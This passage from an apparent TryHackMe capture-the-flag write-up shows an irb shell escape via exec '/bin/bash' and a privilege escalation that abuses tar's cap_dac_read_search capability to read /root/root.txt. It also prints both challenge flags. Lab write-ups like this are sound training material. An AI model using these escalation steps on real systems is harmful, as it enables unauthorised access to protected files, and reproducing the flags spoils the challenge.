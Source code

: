 ## Evade irb and user flag

We have an `irb` prompt (Interactive Ruby Shell). [GTFOBins](https://gtfobins.github.io/gtfobins/irb/) tells us that we can execute `/bin/bash`:

~~~
 irb(main):001:0> exec '/bin/bash'
hades@hell:~$ cat user.txt 
thm{sh3ll_3c4p3_15_v3ry_1337}
~~~

Flag: `thm{sh3ll_3c4p3_15_v3ry_1337}`

# root.txt

*Hint: getcap*

As the hint was `getcap`, I immediately ran the following command to get the capabilities:

~~~
hades@hell:/tmp$ getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/bin/tar = cap_dac_read_search+ep
~~~

According to [book.hacktricks.xyz](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities), here is the meaning of these capabilities:

* `CAP_NET_RAW`: Use RAW and PACKET sockets (sniff traffic)
* `CAP_DAC_READ_SEARCH`: This only bypass file and directory read/execute permission checks

It means we can use `tar` to compress files owned by `root` and eventually, read the root flag:

~~~
hades@hell:/tmp$ tar -cvf flag.tar /root/root.txt
hades@hell:/tmp$ tar xf flag.tar 
hades@hell:/tmp$ cat root/root.txt 
thm{w0w_n1c3_3sc4l4t10n}
~~~

Root flag: `thm{w0w_n1c3_3sc4l4t10n}`
